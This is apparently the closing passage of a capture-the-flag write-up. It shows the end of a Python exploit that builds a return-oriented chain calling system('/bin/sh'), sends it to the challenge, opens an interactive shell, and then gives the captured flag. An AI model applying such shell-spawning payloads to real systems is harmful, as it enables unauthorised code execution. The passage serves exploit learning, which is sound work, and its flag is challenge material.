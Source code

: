 ```python
        payload += p64(pop_rdi)
        payload += p64(sh_addr)
        payload += p64(system_addr) #system("/bin/sh")
        r.send(payload)

        r.interactive()
```

And finally we get the flag: `flag{c4nt_w4it_f0r_cgc_7h15_y34r}`  
CGC huh, well...I'm not sure about that :/ but anyway this is a pretty good challenge :)

